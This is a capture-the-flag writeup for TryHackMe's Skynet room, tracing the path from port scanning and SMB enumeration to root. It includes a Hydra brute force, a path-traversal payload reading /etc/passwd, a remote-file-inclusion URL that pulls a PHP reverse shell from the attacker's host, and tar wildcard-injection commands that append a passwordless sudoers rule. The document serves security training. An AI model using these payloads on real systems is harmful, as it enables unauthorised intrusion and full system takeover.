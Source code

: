# CTF_skynet
this is Poc writeup CTF skynet from TryHackMe.com, link https://tryhackme.com/room/skynet

## tools
1. nmap (looking port that open)
2. dirb (brute listing directory)
3. smbmap (mapping smb server)
4. smbclient (log in smb server)
5. burp (community edition)
6. nc or Ncat (listener reverse shell)
7. python3 (for http.server)
8. nano (text editor)
9. hydra (brute force by wordlist from login form)
10. gobuster (brute listing director)
11. searchsploit (search exploit that match with targeted system)

## Let's Rock n Roll
1. scanning port that opened using nmap :

![nmap](/submit/1.png "nmap")

2. brute listing directory using dirb :

![dirb](/submit/2.png "dirb")

3. while waiting dirb processing, let's try mapping the smbserver using smb map, here's the result :

![smbmap](/submit/4.png "smbmap")

4. the anonymous client is still on, now let's try login using anonymous user using smbclient:

![smbclient](/submit/5.png "smbclient")

5. after dirb finished, we got interesting directory. there is /squirrelmail. open browser that access hhtp://**your machine**/squirrelmail :
  
![webview](/submit/6.png "webview")
  
6. back to the smbclient, then check the directory using ls command. after that we've got attention.txt and file log1.txt,log2.txt,log3.txt on directory logs. download all the files using get command :
  
![smbclient](/submit/7.png "smbclient")

7. check all of files using cat. information that we've got, there is maintenance service so all credential will be reseted. from attention.txt there is username information taht we can use for brute force. information that we got from log2.txt is all password for first login before update password :
  
![smbclient](/submit/8.png "smbclient")
  
8. use burp to intercept and get url GET information that we can combined using Hydra for brute force. fill the form username and password than push button login. than we got the GET url :
  
![burp](/submit/10.png "burp")
  
![burp](/submit/12.png "burp")

![burp](/submit/13.png "burp")
  
9. information that we got is, GET method, url http://**your machine**/squirrelmail/src/redirect.php, and the respon output that we can use as parameter that login was failed. then use hydra with username milesdyson and password wordlist (**log2.txt**), like the command bellow :

![hydra](/submit/14.png "hydra")
  
10. after we got information username and password, login into the squirrelmail and access the email from synet@skynet with subject Samba Password Reset. use the password credential for login as milesdyson with smbclient :
 
![webview](/submit/15.png "webview")
 
![webview](/submit/16.png "webview")
  
![sambaclient](/submit/17.png "sambaclient")
  
11. list the item on the directory. there is **notes** directory, access it. than download the important.txt using get command :

![sambaclient](/submit/19.png "sambaclient")
   
12. now, we got information that machine use CMS. the CMS was in directory at the image bellow. just put the directory affter your machine target ip like this http://**machine target**/**the directory** using browser :

![cat](/submit/21.png "cat")

![webview](/submit/22.png "webview")

13. use gobuster for brute the directory. in this case i'm using dirb wordlist and got the CMS pannel on http://**your target**/**the directory**/Administrator/ :

![gobuster](/submit/23.png "gobuster")

![webview](/submit/24.png "webview")

14. then use searchsploit to get the information. there is Local/Remote vuln on file alertConfigField.php. in this case, just add ../../../../../../etc/passwd on url browser and the /etc/passwd information show off :

![searchsploit](/submit/25.png "searchsploit")

![cat](/submit/26.png "cat")

![webview](/submit/27.png "webview")

15. creat reverse shell in PHP than run the simple http server using python3 for upload the PHP reverse shell script to the target machine afterthat use ncat for listener. then open the browser and type http://**your target**/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://**local machine**/reverse.php, now we got the shell :

![nano](/submit/28.png "nano")

![ncat](/submit/29.png "ncat")

![reverseShell](/submit/30.png "reverseShell")

![reverseShell](/submit/31.png "reverseShell")

16. go into desktop directory milesdyson and there is user.txt, use cat for show the output :

![reverseShell](/submit/32.png "reverseShell")

17. check crontab file to get information, which service runing by **root**. there's backup.sh that will be run on /var/www/html/ approximately every one minutes. copy backup.sh into /var/www/html then run the several comment bellow :
- **echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh**
- **touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"**
- **touch "/var/www/html/--checkpoint=1"**

![reverseShell](/submit/36.png "reverseShell")

![previlegeescall](/submit/37.png "previlegeescall")

![previlegeescall](/submit/38.png "previlegeescall")

18. BOOM we got the root access. now go into **/root** and cat the root.txt

![previlegeescall](/submit/39.png "previlegeescall")

73 good luck
